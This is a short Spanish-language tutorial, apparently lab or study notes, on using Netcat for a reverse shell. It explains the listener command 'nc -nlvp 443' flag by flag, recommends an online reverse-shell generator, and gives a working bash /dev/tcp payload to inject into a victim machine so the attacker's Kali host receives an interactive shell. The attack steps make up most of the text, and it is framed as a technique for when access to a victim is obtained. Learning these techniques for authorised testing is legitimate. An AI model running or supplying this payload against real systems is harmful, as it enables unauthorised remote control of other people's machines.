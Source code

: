# Netcat para entablar Reverse Shell

¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re

<aside>
💡

https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

</aside>

![image.png](./imagenes/image.png)

Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

`nc -nlvp 443`

<aside>
💡

`nc`: Invoca **la herramienta** Netcat.

`-n`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.

`-l`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.

`-v`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.

`-p 443`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).

</aside>

![image.png](./imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png)

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator. 

`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

![image.png](./imagenes/image%201.png)

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

![image.png](./imagenes/image%202.png)

![image.png](./imagenes/image%203.png)